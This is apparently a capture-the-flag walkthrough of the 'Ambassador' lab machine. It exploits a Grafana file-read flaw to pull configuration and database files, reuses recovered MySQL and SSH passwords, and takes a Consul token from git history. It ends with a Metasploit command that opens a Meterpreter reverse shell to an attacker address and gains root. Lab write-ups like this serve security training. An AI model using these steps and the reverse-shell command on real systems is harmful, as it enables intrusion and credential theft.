









# Ambassador
It's a funny Linux machine, focused in the technology of Grafana
This machine could be consider as the easiest 
because the enumeration and the connection to the database (yes 
this machine has the ability to connect to the database 
and make the enumeration possible)



As we can see, in the *Recent post* say "the user for ssh connection
is the user _developer_" that will give us by the DevOps


## Enumeration

We can see the ports 22, 80, 3000 and 3306 open, if we can get the user
and the password of database we can make a connection with the remote
database and get information.






## Intrussion (Explotation)

We can see a panel of login with the name and the version of
_Grafana_, making a bit search in the exploits available for 
_Grafana_ we found a _python3 exploit for the enumeration of the files_





In this section we can see the enumeration using the _grafana enumeration exploit_ to see the```/etc/passwd```




Looging for information about grafana we found the default location
```/usr/local/etc/grafana/grafana.ini``` but the file doesn't exists


so we try in ```/etc/grafana/grafana.ini``` and gotcha!!!



But this file doesn't have any interesting content
So we try to make another search but other file is ```/var/lib/grafana/grafana.db```


And we get a .db file, using a SQLite to get information we get the password and the user for ```mysql connection```



So try to connect

```bash
mysql -h 10.129.218.103 -ugrafana -pdontStandSoCloseToMe63221!
```



And we get the value of the user and password (encoded in base64) ```user: developer   and password:  anEnglishManInNewYork027468``` creds for ssh and
start the ssh connection.



## Privilege Escalation (Post explotation)

After the intrussion digging into the database
to get the password for the ssh connection
we have to see how to scale the privileges...


```bash
developer@ambassador:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)

developer@ambassador:~$ whoami
developer

developer@ambassador:~$ sudo -l
[sudo] password for developer: 
Sorry, user developer may not run sudo on ambassador.
developer@ambassador:~$ 
```
But we can get execution from another command to get access

```bash
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore


developer@ambassador:/opt/my-app$ git show 33a53ef9a207976d5ceceddc41a199558843bf3c
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
We can see the consul binary installed in the machine
so we can get privesc access with this binary 

but first we need to make a ssh port forwarding to get the 
port 8500


```
ssh L 8500:127.0.0.1:8500 developer@10.129.218.103
```


```
❯ msfconsole -q -x "use multi/misc/consul_service_exec; set payload linux/x86/meterpreter/reverse_tcp;set rhosts 127.0.0.1; set lhost 10.10.14.8; set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5; set lport 4444; exploit"[*] Using configured payload linux/x86/meterpreter/reverse_tcppayload => linux/x86/meterpreter/reverse_tcprhosts => 127.0.0.1lhost => 10.10.14.8acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5lport => 4444[*] Started reverse TCP handler on 10.10.14.8:4444 [*] Creating service 'koFEIMWM'[*] Service 'koFEIMWM' successfully created.[*] Waiting for service 'koFEIMWM' script to trigger
[*] Sending stage (989032 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.11.183:49108) at 2022-10-05 14:40:38 -0500
[*] Removing service 'koFEIMWM'
[*] Command Stager progress - 100.00% done (763/763 bytes)

(Meterpreter 1)(/) > shell
Process 1627 created.
Channel 1 created.
bash
whoami
root
cat /root/root.txt
4c60cf105a721723dcb63be1ff31af7d
```
and that's all folks.